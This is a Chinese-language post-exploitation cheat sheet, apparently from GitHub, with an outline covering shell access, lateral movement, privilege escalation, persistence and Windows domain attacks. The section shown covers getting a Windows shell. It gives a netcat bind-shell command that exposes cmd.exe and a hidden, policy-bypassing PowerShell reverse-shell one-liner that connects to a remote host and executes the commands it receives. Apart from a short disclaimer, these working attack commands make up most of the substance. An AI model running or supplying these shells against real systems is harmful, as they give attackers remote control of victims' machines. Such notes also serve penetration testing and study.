 # 后渗透笔记

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 大纲

**GET shell**

* [windows下获取shell](#windows下获取shell)
* [linux下获取shell](#linux下获取shell)

**[横向扩展](#横向扩展)**

* [PTH/PTK/PTT](#PTH/PTK/PTT)
* [隐匿攻击](#隐匿攻击)
* [文件传输](#文件传输)

**[权限提升](#权限提升)**

**[权限维持](#权限维持)**

**[windows域](#windows域)**

* [Exchange](#Exchange)
* [NTDS.DIT](#NTDS.DIT)

---

# GET shell

本部分总结一些获取 shell 的方法和过程

## windows下获取shell

**文章**
- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)

**nc**

`路径\nc.exe -l -p 端口 -t -e 路径\cmd.exe`

```
c:\RECYCLER\nc.exe -l -p 1234 -t -e c:\RECYCLER\cmd.exe
```

**powershell**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
